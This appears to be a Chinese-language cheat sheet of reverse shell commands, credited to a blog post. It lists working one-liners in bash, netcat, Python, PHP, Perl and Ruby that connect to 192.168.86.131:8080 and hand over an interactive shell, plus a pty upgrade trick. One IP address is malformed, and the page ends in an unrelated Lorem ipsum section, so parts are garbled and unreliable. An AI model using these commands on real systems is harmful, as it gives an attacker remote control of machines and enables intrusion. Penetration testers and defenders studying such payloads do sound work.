 # 命令注入

> From https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/


## 反弹shell

```bash
nc -lvvp 8080 -t -e /bin/bash
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.86.131",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("192.168.786131",8080);exec("/bin/sh -i <&3 >&3 2>&3");' #代码假设TCP连接的文件描述符为3，如果不行可以试下4,5,6
perl -e 'use Socket;$i="192.168.86.131";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
ruby -rsocket -e'f=TCPSocket.open("192.168.86.131",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

将shell变成tty交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
```

## Section 2

Nulla vitae elit libero, a pharetra augue. Cras justo odio, dapibus ac facilisis in, egestas eget quam. Cras mattis consectetur purus sit amet fermentum. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.
